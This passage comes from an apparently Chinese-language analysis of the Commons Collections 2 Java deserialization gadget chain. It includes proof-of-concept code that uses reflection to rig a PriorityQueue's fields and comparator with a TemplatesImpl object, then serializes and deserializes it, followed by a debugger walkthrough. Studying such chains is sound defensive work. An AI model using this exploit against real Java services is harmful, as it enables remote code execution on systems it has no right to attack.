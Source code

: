 ```java
setFieldValue(templates, "_class", null);
public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
    final Field field = getField(obj.getClass(), fieldName);
    field.set(obj, value);
}

public static Field getField(final Class<?> clazz, final String fieldName) {
    Field field = null;
    try {
        field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
    }
    catch (NoSuchFieldException ex) {
        if (clazz.getSuperclass() != null)
            field = getField(clazz.getSuperclass(), fieldName);
    }
    return field;
}
```
#### 0x4
第一部分相当于是给queue赋值，相当于执行add操作，第二部分是给queue设置为2，第三部分就是在poc中强调的部分，最后通过反射将comparator绑定到实例化的queue中
```java
Object[] queue_array = new Object[]{templates,1};
Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
queue_field.setAccessible(true);
queue_field.set(queue,queue_array);

Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
size.setAccessible(true);
size.set(queue,2);

Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
comparator_field.setAccessible(true);
comparator_field.set(queue,Tcomparator);
```
#### 0x5
模拟网络传输，执行序列化与反序列化
```java
try{
    ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2.bin"));
    outputStream.writeObject(queue);
    outputStream.close();

    ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2.bin"));
    inputStream.readObject();
}catch(Exception e){
    e.printStackTrace();
}
```
### 分析
在inputStream.readObject()处打断点，跟进直到`comparator.compare()`方法中![图片.png](https://cdn.nlark.com/yuque/0/2022/png/21929389/1652081265003-47a61fbc-e933-469d-b498-37c341caae45.png#clientId=u2044ba9c-3055-4&from=paste&height=1040&id=ubd9cbace&originHeight=1040&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=235759&status=done&style=none&taskId=u5757a169-a1a0-4223-8cda-7dfc7431c54&title=&width=1920)进入`comparator.compare()` 方法中![图片.png](https://cdn.nlark.com/yuque/0/2022/png/21929389/1652081328425-c307bf01-8c70-484e-8363-f25cff5423e2.png#clientId=u2044ba9c-3055-4&from=paste&height=1040&id=ua82b1410&originHeight=1040&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=247088&status=done&style=none&taskId=ufd5d0983-3bb0-4f22-93e4-15c851028bb&title=&width=1920)在这里可以看到这里会去执行TemplatesImpl.newTransformer()方法![图片.png](./Commons Collection2 分析.assets/2023_05_19_10_37_19_8rhbnqAX.png)`方法
